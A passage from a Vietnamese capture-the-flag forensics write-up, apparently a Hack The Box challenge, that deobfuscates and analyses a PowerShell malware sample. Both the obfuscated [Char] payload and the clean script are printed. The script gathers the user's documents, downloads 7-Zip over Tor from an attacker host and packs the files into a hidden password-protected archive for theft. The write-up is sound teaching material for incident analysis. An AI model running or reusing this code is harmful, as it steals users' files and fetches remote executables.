[Char]115 + [Char]116 + [Char]59 + [Char]10 + [Char]125 + [Char]10 + [Char]10 + [Char]102 + [Char]117 + [Char]110 + [Char]99 + [Char]116 + [Char]105 + [Char]111 + [Char]110 + [Char]32 + [Char]99 + [Char]111 + [Char]109 + [Char]112 + [Char]114 + [Char]101 + [Char]115 + [Char]115 + [Char]40 + [Char]36 + [Char]80 + [Char]97 + [Char]115 + [Char]115 + [Char]41 + [Char]10 + [Char]123 + [Char]10 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]36 + [Char]116 + [Char]109 + [Char]112 + [Char]32 + [Char]61 + [Char]32 + [Char]36 + [Char]101 + [Char]110 + [Char]118 + [Char]58 + [Char]84 + [Char]69 + [Char]77 + [Char]80 + [Char]59 + [Char]10 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]36 + [Char]115 + [Char]32 + [Char]61 + [Char]32 + [Char]39 + [Char]104 + [Char]116 + [Char]116 + [Char]112 + [Char]115 + [Char]58 + [Char]47 + [Char]47 + [Char]114 + [Char]101 + [Char]108 + [Char]105 + [Char]99 + [Char]45 + [Char]114 + [Char]101 + [Char]99 + [Char]108 + [Char]97 + [Char]109 + [Char]97 + [Char]116 + [Char]105 + [Char]111 + [Char]110 + [Char]45 + [Char]97 + [Char]110 + [Char]111 + [Char]110 + [Char]121 + [Char]109 + [Char]111 + [Char]117 + [Char]115 + [Char]46 + [Char]97 + [Char]108 + [Char]105 + [Char]101 + [Char]110 + [Char]58 + [Char]49 + [Char]51 + [Char]51 + [Char]55 + [Char]47 + [Char]112 + [Char]114 + [Char]111 + [Char]103 + [Char]47 + [Char]39 + [Char]59 + [Char]10 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]36 + [Char]108 + [Char]105 + [Char]110 + [Char]107 + [Char]95 + [Char]55 + [Char]122 + [Char]100 + [Char]108 + [Char]108 + [Char]32 + [Char]61 + [Char]32 + [Char]36 + [Char]115 + [Char]32 + [Char]43 + [Char]32 + [Char]39 + [Char]55 + [Char]122 + [Char]46 + [Char]100 + [Char]108 + [Char]108 + [Char]39 + [Char]59 + [Char]10 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]36 + [Char]108 + [Char]105 + [Char]110 + [Char]107 + [Char]95 + [Char]55 + [Char]122 + [Char]101 + [Char]120 + [Char]101 + [Char]32 + [Char]61 + [Char]32 + [Char]36 + [Char]115 + [Char]32 + [Char]43 + [Char]32 + [Char]39 + [Char]55 + [Char]122 + [Char]46 + [Char]101 + [Char]120 + [Char]101 + [Char]39 + [Char]59 + [Char]10 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]10 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]36 + [Char]55 + [Char]122 + [Char]100 + [Char]108 + [Char]108 + [Char]32 + [Char]61 + [Char]32 + [Char]39 + [Char]34 + [Char]39 + [Char]43 + [Char]36 + [Char]116 + [Char]109 + [Char]112 + [Char]43 + [Char]39 + [Char]92 + [Char]55 + [Char]122 + [Char]46 + [Char]100 + [Char]108 + [Char]108 + [Char]34 + [Char]39 + [Char]59 + [Char]10 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]36 + [Char]55 + [Char]122 + [Char]101 + [Char]120 + [Char]101 + [Char]32 + [Char]61 + [Char]32 + [Char]39 + [Char]34 + [Char]39 + [Char]43 + [Char]36 + [Char]116 + [Char]109 + [Char]112 + [Char]43 + [Char]39 + [Char]92 + [Char]55 + [Char]122 + [Char]46 + [Char]101 + [Char]120 + [Char]101 + [Char]34 + [Char]39 + [Char]59 + [Char]10 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]99 + [Char]109 + [Char]100 + [Char]32 + [Char]47 + [Char]99 + [Char]32 + [Char]99 + [Char]117 + [Char]114 + [Char]108 + [Char]32 + [Char]45 + [Char]115 + [Char]32 + [Char]45 + [Char]120 + [Char]32 + [Char]115 + [Char]111 + [Char]99 + [Char]107 + [Char]115 + [Char]53 + [Char]104 + [Char]58 + [Char]47 + [Char]47 + [Char]108 + [Char]111 + [Char]99 + [Char]97 + [Char]108 + [Char]104 + [Char]111 + [Char]115 + [Char]116 + [Char]58 + [Char]57 + [Char]48 + [Char]53 + [Char]48 + [Char]32 + [Char]36 + [Char]108 + [Char]105 + [Char]110 + [Char]107 + [Char]95 + [Char]55 + [Char]122 + [Char]100 + [Char]108 + [Char]108 + [Char]32 + [Char]45 + [Char]111 + [Char]32 + [Char]36 + [Char]55 + [Char]122 + [Char]100 + [Char]108 + [Char]108 + [Char]59 + [Char]10 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]99 + [Char]109 + [Char]100 + [Char]32 + [Char]47 + [Char]99 + [Char]32 + [Char]99 + [Char]117 + [Char]114 + [Char]108 + [Char]32 + [Char]45 + [Char]115 + [Char]32 + [Char]45 + [Char]120 + [Char]32 + [Char]115 + [Char]111 + [Char]99 + [Char]107 + [Char]115 + [Char]53 + [Char]104 + [Char]58 + [Char]47 + [Char]47 + [Char]108 + [Char]111 + [Char]99 + [Char]97 + [Char]108 + [Char]104 + [Char]111 + [Char]115 + [Char]116 + [Char]58 + [Char]57 + [Char]48 + [Char]53 + [Char]48 + [Char]32 + [Char]36 + [Char]108 + [Char]105 + [Char]110 + [Char]107 + [Char]95 + [Char]55 + [Char]122 + [Char]101 + [Char]120 + [Char]101 + [Char]32 + [Char]45 + [Char]111 + [Char]32 + [Char]36 + [Char]55 + [Char]122 + [Char]101 + [Char]120 + [Char]101 + [Char]59 + [Char]10 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]10 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]36 + [Char]97 + [Char]114 + [Char]103 + [Char]69 + [Char]120 + [Char]116 + [Char]101 + [Char]110 + [Char]115 + [Char]105 + [Char]111 + [Char]110 + [Char]115 + [Char]32 + [Char]61 + [Char]32 + [Char]39 + [Char]42 + [Char]46 + [Char]112 + [Char]100 + [Char]102 + [Char]32 + [Char]42 + [Char]46 + [Char]100 + [Char]111 + [Char]99 + [Char]32 + [Char]42 + [Char]46 + [Char]100 + [Char]111 + [Char]99 + [Char]120 + [Char]32 + [Char]42 + [Char]46 + [Char]120 + [Char]108 + [Char]115 + [Char]32 + [Char]42 + [Char]46 + [Char]120 + [Char]108 + [Char]115 + [Char]120 + [Char]32 + [Char]42 + [Char]46 + [Char]112 + [Char]112 + [Char]116 + [Char]120 + [Char]32 + [Char]42 + [Char]46 + [Char]112 + [Char]112 + [Char]116 + [Char]32 + [Char]42 + [Char]46 + [Char]116 + [Char]120 + [Char]116 + [Char]32 + [Char]42 + [Char]46 + [Char]99 + [Char]115 + [Char]118 + [Char]32 + [Char]42 + [Char]46 + [Char]104 + [Char]116 + [Char]109 + [Char]32 + [Char]42 + [Char]46 + [Char]104 + [Char]116 + [Char]109 + [Char]108 + [Char]32 + [Char]42 + [Char]46 + [Char]112 + [Char]104 + [Char]112 + [Char]39 + [Char]59 + [Char]10 + [Char]10 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]36 + [Char]97 + [Char]114 + [Char]103 + [Char]79 + [Char]117 + [Char]116 + [Char]32 + [Char]61 + [Char]32 + [Char]39 + [Char]68 + [Char]101 + [Char]115 + [Char]107 + [Char]116 + [Char]111 + [Char]112 + [Char]92 + [Char]65 + [Char]108 + [Char]108 + [Char]89 + [Char]111 + [Char]117 + [Char]114 + [Char]82 + [Char]101 + [Char]108 + [Char]105 + [Char]107 + [Char]82 + [Char]101 + [Char]115 + [Char]101 + [Char]97 + [Char]114 + [Char]99 + [Char]104 + [Char]72 + [Char]97 + [Char]104 + [Char]97 + [Char]104 + [Char]97 + [Char]95 + [Char]123 + [Char]48 + [Char]125 + [Char]46 + [Char]122 + [Char]105 + [Char]112 + [Char]39 + [Char]32 + [Char]45 + [Char]102 + [Char]32 + [Char]40 + [Char]71 + [Char]101 + [Char]116 + [Char]45 + [Char]82 + [Char]97 + [Char]110 + [Char]100 + [Char]111 + [Char]109 + [Char]32 + [Char]45 + [Char]77 + [Char]105 + [Char]110 + [Char]105 + [Char]109 + [Char]117 + [Char]109 + [Char]32 + [Char]49 + [Char]48 + [Char]48 + [Char]48 + [Char]48 + [Char]48 + [Char]32 + [Char]45 + [Char]77 + [Char]97 + [Char]120 + [Char]105 + [Char]109 + [Char]117 + [Char]109 + [Char]32 + [Char]50 + [Char]48 + [Char]48 + [Char]48 + [Char]48 + [Char]48 + [Char]41 + [Char]46 + [Char]84 + [Char]111 + [Char]83 + [Char]116 + [Char]114 + [Char]105 + [Char]110 + [Char]103 + [Char]40 + [Char]41 + [Char]59 + [Char]10 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]36 + [Char]97 + [Char]114 + [Char]103 + [Char]80 + [Char]97 + [Char]115 + [Char]115 + [Char]32 + [Char]61 + [Char]32 + [Char]39 + [Char]45 + [Char]112 + [Char]39 + [Char]32 + [Char]43 + [Char]32 + [Char]36 + [Char]80 + [Char]97 + [Char]115 + [Char]115 + [Char]59 + [Char]10 + [Char]10 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]83 + [Char]116 + [Char]97 + [Char]114 + [Char]116 + [Char]45 + [Char]80 + [Char]114 + [Char]111 + [Char]99 + [Char]101 + [Char]115 + [Char]115 + [Char]32 + [Char]45 + [Char]87 + [Char]105 + [Char]110 + [Char]100 + [Char]111 + [Char]119 + [Char]83 + [Char]116 + [Char]121 + [Char]108 + [Char]101 + [Char]32 + [Char]72 + [Char]105 + [Char]100 + [Char]100 + [Char]101 + [Char]110 + [Char]32 + [Char]45 + [Char]87 + [Char]97 + [Char]105 + [Char]116 + [Char]32 + [Char]45 + [Char]70 + [Char]105 + [Char]108 + [Char]101 + [Char]80 + [Char]97 + [Char]116 + [Char]104 + [Char]32 + [Char]36 + [Char]116 + [Char]109 + [Char]112 + [Char]39 + [Char]92 + [Char]55 + [Char]122 + [Char]46 + [Char]101 + [Char]120 + [Char]101 + [Char]39 + [Char]32 + [Char]45 + [Char]65 + [Char]114 + [Char]103 + [Char]117 + [Char]109 + [Char]101 + [Char]110 + [Char]116 + [Char]76 + [Char]105 + [Char]115 + [Char]116 + [Char]32 + [Char]39 + [Char]97 + [Char]39 + [Char]44 + [Char]32 + [Char]36 + [Char]97 + [Char]114 + [Char]103 + [Char]79 + [Char]117 + [Char]116 + [Char]44 + [Char]32 + [Char]39 + [Char]45 + [Char]114 + [Char]39 + [Char]44 + [Char]32 + [Char]36 + [Char]97 + [Char]114 + [Char]103 + [Char]69 + [Char]120 + [Char]116 + [Char]101 + [Char]110 + [Char]115 + [Char]105 + [Char]111 + [Char]110 + [Char]115 + [Char]44 + [Char]32 + [Char]36 + [Char]97 + [Char]114 + [Char]103 + [Char]80 + [Char]97 + [Char]115 + [Char]115 + [Char]32 + [Char]45 + [Char]69 + [Char]114 + [Char]114 + [Char]111 + [Char]114 + [Char]65 + [Char]99 + [Char]116 + [Char]105 + [Char]111 + [Char]110 + [Char]32 + [Char]83 + [Char]116 + [Char]111 + [Char]112 + [Char]59 + [Char]10 + [Char]125 + [Char]10 + [Char]10 + [Char]36 + [Char]80 + [Char]97 + [Char]115 + [Char]115 + [Char]32 + [Char]61 + [Char]32 + [Char]109 + [Char]97 + [Char]107 + [Char]101 + [Char]80 + [Char]97 + [Char]115 + [Char]115 + [Char]59 + [Char]10 + [Char]36 + [Char]102 + [Char]105 + [Char]108 + [Char]101 + [Char]76 + [Char]105 + [Char]115 + [Char]116 + [Char]32 + [Char]61 + [Char]32 + [Char]64 + [Char]40 + [Char]109 + [Char]97 + [Char]107 + [Char]101 + [Char]70 + [Char]105 + [Char]108 + [Char]101 + [Char]76 + [Char]105 + [Char]115 + [Char]116 + [Char]41 + [Char]59 + [Char]10 + [Char]36 + [Char]102 + [Char]105 + [Char]108 + [Char]101 + [Char]82 + [Char]101 + [Char]115 + [Char]117 + [Char]108 + [Char]116 + [Char]32 + [Char]61 + [Char]32 + [Char]109 + [Char]97 + [Char]107 + [Char]101 + [Char]70 + [Char]105 + [Char]108 + [Char]101 + [Char]76 + [Char]105 + [Char]115 + [Char]116 + [Char]84 + [Char]97 + [Char]98 + [Char]108 + [Char]101 + [Char]32 + [Char]36 + [Char]102 + [Char]105 + [Char]108 + [Char]101 + [Char]76 + [Char]105 + [Char]115 + [Char]116 + [Char]59 + [Char]10 + [Char]99 + [Char]111 + [Char]109 + [Char]112 + [Char]114 + [Char]101 + [Char]115 + [Char]115 + [Char]32 + [Char]36 + [Char]80 + [Char]97 + [Char]115 + [Char]115 + [Char]59 + [Char]10 + [Char]36 + [Char]84 + [Char]111 + [Char]112 + [Char]83 + [Char]101 + [Char]99 + [Char]114 + [Char]101 + [Char]116 + [Char]67 + [Char]111 + [Char]100 + [Char]101 + [Char]84 + [Char]111 + [Char]68 + [Char]105 + [Char]115 + [Char]97 + [Char]98 + [Char]108 + [Char]101 + [Char]83 + [Char]99 + [Char]114 + [Char]105 + [Char]112 + [Char]116 + [Char]32 + [Char]61 + [Char]32 + [Char]34 + [Char]72 + [Char]84 + [Char]66 + [Char]123 + [Char]89 + [Char]48 + [Char]85 + [Char]95 + [Char]67 + [Char]52 + [Char]110 + [Char]116 + [Char]95 + [Char]83 + [Char]116 + [Char]48 + [Char]112 + [Char]95 + [Char]84 + [Char]104 + [Char]51 + [Char]95 + [Char]65 + [Char]108 + [Char]108 + [Char]105 + [Char]52 + [Char]110 + [Char]99 + [Char]51 + [Char]125 + [Char]34 + [Char]10 | iex
```

Tiếp tục deobfuscate tiếp theo sau lớp dựng `[Char]`.

Kết quả ra được phần nội dung sau:

```powershell
### .     .       .  .   . .   .   . .    +  .
###   .     .  :     .    .. :. .___---------___.
###        .  .   .    .  :.:. _".^ .^ ^.  '.. :"-_. .
###     .  :       .  .  .:../:            . .^  :.:\.
###         .   . :: +. :.:/: .   .    .        . . .:\
###  .  :    .     . _ :::/:                         .:\
###   .. . .   . - : :.:./.                           .:\
###  .   .     : . : .:.|. ######               #######::|
###   :.. .  :-  : .:  ::|.#######             ########:|
###  .  .  .  ..  .  .. :\ ########           ######## :/
###   .        .+ :: : -.:\ ########         ########.:/
###     .  .+   . . . . :.:\. #######       #######..:/
###       :: . . . . ::.:..:.\                   ..:/
###    .   .   .  .. :  -::::.\.       | |       .:/
###       .  :  .  .  .-:.":.::.\               .:/
###  .      -.   . . . .: .:::.:.\            .:/
### .   .   .  :      : ....::_:..:\   ___   :/
###    .   .  .   .:. .. .  .: :.:.:\       :/
###      +   .   .   : . ::. :.:. .:.|\  .:/|
### SCRIPT TO DELAY HUMAN RESEARCH ON RELIC RECLAMATION
### STAY QUIET - HACK THE HUMANS - STEAL THEIR SECRETS - FIND THE RELIC
### GO ALLIENS ALLIANCE !!!

function makePass
{
    $alph=@();
    65..90|foreach-object{$alph+=[char]$_};
    $num=@();
    48..57|foreach-object{$num+=[char]$_};

    $res = $num + $alph | Sort-Object {Get-Random};
    $res = $res -join '';
    return $res;
}

function makeFileList
{
    $files = cmd /c where /r $env:USERPROFILE *.pdf *.doc *.docx *.xls *.xlsx *.pptx *.ppt *.txt *.csv *.htm *.html *.php;
    $List = $files -split '\r';
    return $List;
}

function compress($Pass)
{
    $tmp = $env:TEMP;
    $s = 'https://relic-reclamation-anonymous.alien:1337/prog/';
    $link_7zdll = $s + '7z.dll';
    $link_7zexe = $s + '7z.exe';

    $7zdll = '"'+$tmp+'\7z.dll"';
    $7zexe = '"'+$tmp+'\7z.exe"';
    cmd /c curl -s -x socks5h://localhost:9050 $link_7zdll -o $7zdll;
    cmd /c curl -s -x socks5h://localhost:9050 $link_7zexe -o $7zexe;

    $argExtensions = '*.pdf *.doc *.docx *.xls *.xlsx *.pptx *.ppt *.txt *.csv *.htm *.html *.php';

    $argOut = 'Desktop\AllYourRelikResearchHahaha_{0}.zip' -f (Get-Random -Minimum 100000 -Maximum 200000).ToString();
    $argPass = '-p' + $Pass;

    Start-Process -WindowStyle Hidden -Wait -FilePath $tmp'\7z.exe' -ArgumentList 'a', $argOut, '-r', $argExtensions, $argPass -ErrorAction Stop;
}

$Pass = makePass;
$fileList = @(makeFileList);
$fileResult = makeFileListTable $fileList;
compress $Pass;
$TopSecretCodeToDisableScript = "HTB{Y0U_C4nt_St0p_Th3_Alli4nc3}"
```

---

## 5. Phân tích script cuối

### 6.1. `makePass`

```powershell
function makePass
```

Hàm này tạo ra một mật khẩu ngẫu nhiên.

Cách hoạt động:

- tạo mảng chữ cái in hoa `A..Z`
- tạo mảng chữ số `0..9`
- ghép hai mảng lại
- dùng `Sort-Object {Get-Random}` để xáo trộn
- ghép toàn bộ thành chuỗi

### 5.2. `makeFileList`

```powershell
function makeFileList
```

Hàm này dùng:

```powershell
cmd /c where /r $env:USERPROFILE ...
```

để tìm đệ quy trong thư mục user các file có đuôi:

- `pdf`
- `doc`, `docx`
- `xls`, `xlsx`
- `ppt`, `pptx`
- `txt`
- `csv`
- `htm`, `html`
- `php`

Mục tiêu là tìm các file tài liệu có giá trị.

### 5.3. `compress($Pass)`

```powershell
function compress($Pass)
```

Đây là phần quan trọng nhất.

Flow của hàm này là:

1. lấy thư mục tạm `%TEMP%`
2. chuẩn bị URL:

```text
https://relic-reclamation-anonymous.alien:1337/prog/
```

3. tải `7z.dll` và `7z.exe` qua:

```powershell
curl -s -x socks5h://localhost:9050
```

1. chuẩn bị danh sách file cần nén
2. tạo tên file output ngẫu nhiên dạng:

```text
Desktop\AllYourRelikResearchHahaha_<random>.zip
```

6. ghép tham số mật khẩu `-p<password>`
7. gọi `7z.exe` ở chế độ ẩn để nén toàn bộ file tìm được vào một file ZIP có mật khẩu

---

## 6. Flag

Tìm được flag là:

```text
HTB{Y0U_C4nt_St0p_Th3_Alli4nc3}
```



---

## 7. Flow 

```text
2023-03-09T132449_PANDORA.vhdx
   |
   v
mở bằng FTK Image
   |
   v
đọc được consoleHost_history.txt
   |
   v
nhận ra attacker lấy nội dung finpayload
và ghi vào ADS hidden.ps1 của ActiveSyncProvider.dll
   |
   v
trích xuất ADS hidden.ps1
   |
   v
thấy nội dung giống Base64
   |
   v
decode lớp đầu
   |
   v
thu được đoạn PowerShell obfuscate dùng mapping ký tự rác
   |
   v
deobfuscate lớp mapping
   |
   v
ra chuỗi rất dài dạng [Char]...
   |
   v
deobfuscate tiếp lớp [Char]
   |
   v
thu được ASCII art + script PowerShell thật
   |
   v
phân tích các hàm:
makePass / makeFileList / compress
   |
   v
nhận ra malware tìm tài liệu, tải 7z qua Tor,
nén file bằng mật khẩu và chuẩn bị exfiltration
   |
   v
tìm thấy biến chứa flag
```
---